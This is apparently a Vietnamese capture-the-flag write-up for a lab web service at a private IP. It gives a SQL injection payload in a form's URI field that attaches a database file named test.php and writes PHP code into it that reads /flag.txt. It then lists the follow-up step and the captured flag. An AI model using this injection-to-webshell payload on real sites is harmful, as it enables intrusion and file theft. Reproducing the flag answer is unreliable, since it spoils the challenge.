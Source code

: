 Vào link sau <code>192.168.100.210/cache.php?access=f4fa5dc42fd0b12a098fcc218059e061</code><br/>
Có 2 trường form là <strong>Title</strong> và <strong>URI</strong><br/>
<i> Lưu ý mở hẳn README ra để lấy chuỗi nhập, hiển thị bị lỗi</i><br/>
Lần đầu tiên nhập <strong>Title</strong> là <code>Testing</code> và <strong>URI</strong> là <code>http://192.168.100.210/index.php?somevar=test', datetime('now')); ATTACH DATABASE 'test.php' AS a; CREATE TABLE a.tbl (test); INSERT INTO a.tbl (test) VALUES ('<?php echo file_get_contents("/flag.txt"); ?>'); --</code><br/> 
Lần tiếp theo nhập <strong>Title</strong> là <code>Testing Again</code> và <strong>URI</strong> là <code>http://192.168.100.210/cache.php?access=f4fa5dc42fd0b12a098fcc218059e061</code><br/> 
Sau đó vào link <code>192.168.100.210/test.php</code> để ra cờ<br/>
Cờ là <code>TryingCrampFibrous963</code>
